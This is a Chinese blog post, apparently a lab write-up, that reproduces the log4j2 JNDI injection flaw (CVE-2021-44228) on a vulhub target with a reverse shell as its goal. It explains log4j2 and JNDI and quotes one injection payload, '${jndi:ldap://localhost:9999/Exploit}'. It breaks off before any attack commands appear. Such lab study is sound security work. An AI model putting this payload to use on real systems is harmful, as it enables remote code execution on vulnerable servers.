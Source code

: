 ```yaml
---
layout: post
title: "log4j2---基于vulhub的log4j2漏洞复现---反弹shell"
date: "2023-07-29T01:06:12.454Z"
---
```

log4j2---基于vulhub的log4j2漏洞复现---反弹shell
======================================

基于vulhub的log4j2漏洞复现---反弹shell
-----------------------------

### 1.方法一

环境准备：

和我上一篇fastjson1.2.24漏洞复现是一样的环境，方法也差别不大

**声明**：遵纪守法，仅作学习记录用处，部分描述文字源于网络，若侵权联系删除

老演员：

centos8：192.168.59.135 vulhub靶场

win10：192.168.59.130 攻击机

**log4j2**：

log4j2是apache旗下的一个java应用的开源日志库，Java的日志记录工具。

log4j2是在log4j框架的基础上进行了改进，引入了丰富的特性，可控制日志信息输送的目的地为控制台、文件、GUI组件等，应用于业务系统开发、记录程序输入输出日志信息

**JNDI**：（取自网络，若侵权联系删）

JNDI全称 Java Naming and Directory Interface。JNDI是Java平台的一个标准扩展，提供了一组接口、类和关于命名空间的概念。如同其它很多Java技术一样，JDNI是provider-based的技术，暴露了一个API和一个服务供应接口（SPI）。这意味着任何基于名字的技术都能通过JNDI而提供服务，只要JNDI支持这项技术。JNDI目前所支持的技术包括LDAP、CORBA Common Object Service（COS）名字服务、RMI、NDS、DNS、Windows注册表等等。很多J2EE技术，包括EJB都依靠JNDI来组织和定位实体。  
JDNI通过绑定的概念将对象和名称联系起来。在一个文件系统中，文件名被绑定给文件。在DNS中，一个IP地址绑定一个URL。在目录服务中，一个对象名被绑定给一个对象实体。  
JNDI中的一组绑定作为上下文来引用。每个上下文暴露的一组操作是一致的。例如，每个上下文提供了一个查找操作，返回指定名字的相应对象。每个上下文都提供了绑定和撤除绑定名字到某个对象的操作。JNDI使用通用的方式来暴露命名空间，即使用分层上下文以及使用相同命名语法的子上下文。

还是讲讲原理吧：

Log4j2是默认支持解析ldap/rmi协议的，打印的日志中包括ldap/rmi协议都行，通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回Class类。

这就为攻击者提供了攻击途径：攻击者可传入一个包含恶意内容的文件：一个恶意的Class文件，包含ldap协议内容（例如：恶意内容${jndi:ldap://localhost:9999/Exploit}恶意内容）。该内容传递到后端被log4j2打印出来，就会触发恶意的代码、命令的加载执行，从而达到攻击的目的。

​ cve编号：CVE-2021-44228

log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何可能：恶意代码，加载服务，无限可能。

攻击者可利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行---可反弹shell到指定服务器

开干吧！！！
